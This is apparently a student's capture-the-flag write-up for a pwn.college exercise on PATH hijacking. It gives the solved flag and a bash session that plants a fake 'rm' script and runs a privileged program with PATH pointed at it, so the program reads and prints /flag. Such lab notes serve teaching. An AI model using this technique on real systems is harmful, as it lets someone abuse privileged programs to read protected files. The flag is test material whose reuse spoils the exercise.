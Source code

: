 # Pondering Path

## Hijacking Commands

Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

### Solve
**Flag:** pwn.college{cxNAQaJ3RW_IFdt-uNgJL9vr8bG.QX3cjM1wiNxIzNzEzW}

for changing rm command first create bin directory in /home/hacker directory then create rm shell and then run flag file if -r /flag then read flag into FLAG and echo it. Then change execution access of rm and run it using 
PATH=/home/hacker/bin /challenge/run. It will try to remove the flag but end up giving the flag as we have changed the instructions to rm command thus hacking it 
```bash
hacker@path~hijacking-commands:~$ mkdir -p /home/hacker/bin
hacker@path~hijacking-commands:~$ cat > /home/hacker/bin/rm <<'EOF'
#!/bin/bash
if [ -r /flag ]; then
  read -r FLAG < /flag
  printf '%s\n' "$FLAG"
else
  for f in "$@"; do
    printf '(no /flag; argument: %s)\n' "$f" >&2
  done
fi
exit 0
EOF
hacker@path~hijacking-commands:~$ chmod +x /home/hacker/bin/rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker/bin /challenge/run
Trying to remove /flag...
pwn.college{cxNAQaJ3RW_IFdt-uNgJL9vr8bG.QX3cjM1wiNxIzNzEzW}
```

### New Learnings
We can change the operation of command by creating a duplicate shell of the same then executing the shell as command thus getting desired output

### References 
N.A.
